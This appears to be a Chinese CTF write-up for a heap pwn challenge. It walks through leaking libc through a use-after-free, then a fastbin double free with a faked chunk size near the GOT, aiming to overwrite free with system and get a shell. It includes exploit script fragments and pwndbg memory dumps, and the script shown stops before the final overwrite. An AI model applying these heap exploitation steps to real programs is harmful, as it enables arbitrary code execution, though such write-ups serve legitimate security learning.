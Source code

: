 ### 解题思路
总体思路就是先利用`uaf`泄漏libc，然后`double free`，改`free`的`got`表为`system`函数，最后通过`free('/bin/sh')`拿到shell

创建SCP时，三次malloc依次为

1. SCP结构体，大小`0x20`
2. `name`，大小自定
3. `description`，大小自定

### UAF

利用fastbin LIFO的特性，先创建两个SCP，再删除它们，获得两个`0x20`的fastbin

> 这两个SCP的`name`和`description`的大小需要都不在`0x20`范围内

然后再创建一个SCP，`name`的大小等于`0x18`，这时`name`的`chunk`就会被分派到已经释放了的0号节点的位置，向`name`中写入任意地址，只要查看0号节点，就可以打印出该地址中的数据

我的做法是向`name`中写`free`的`got`表，然后打印出`libc`中`free`的地址：

```python
add(0x28,'AAAAAAAA',0x58,'aaaaaaaa') #0
add(0x28,'BBBBBBBB',0x58,'bbbbbbbb') #1
# leak libc
dlt(0)
dlt(1)
add(0x18,p64(elf.got['free']),0x18,'dddddddd') #3
free = uu64(show(0))
```

### Double Free

题目有限制，只能添加10个SCP，因此要节约使用，刚刚泄漏libc时创建的两个节点可以重复使用，uaf只是在`0x20`的`fastbin`上做手脚，其余的`fastbin`不受影响。

虽然创建一次会连续`malloc`三次，但是只要这三次`malloc`出的`chunk`大小不一样，就不会互相影响。

这里有一点需要注意，要想成功`malloc`到`free`的`GOT`表，必须要先伪造`chunk`的`size`，通过调试，顺着`GOT`表中`free`的地址往前找，在第`14`字节找到了`0x60`，因此往这里可以分配`0x50-0x60`的chunk

```c
pwndbg> got
[0x603018] free@GLIBC_2.2.5 -> 0x7ff53a3dd4f0 (free) ◂— push   r13

pwndbg> x/8xg 0x603018-0x10-14
0x602ffa:	0x2e28000000000000	0xa168000000000060 ◂— size
0x60300a:	0xae1000007ff53a94	0xd4f000007ff53a73
0x60301a:	0x869000007ff53a3d	0x078600007ff53a3c
0x60302a:	0xf6b0000000000040	0xe80000007ff53a3c
```

具体的操作如下：

```python
add(0x28,'AAAAAAAA',0x58,'aaaaaaaa') #0
add(0x28,'BBBBBBBB',0x58,'bbbbbbbb') #1
add(0x28,'CCCCCCCC',0x58,'cccccccc') #2

# leak libc
dlt(0)
dlt(1)
add(0x18,p64(elf.got['free']),0x18,'dddddddd') #3
free = uu64(show(0))
dlt(3)

# double free
dlt(0)
add(0x28,p64(0xdeadbeef),0x58,p64(elf.got['free']-16-14)) #4
add(0x28,p64(0xdeadbeef),0x58,'eeeeeeee') #5
add(0x28,p64(0xdeadbeef),0x58,'ffffffff') #6
```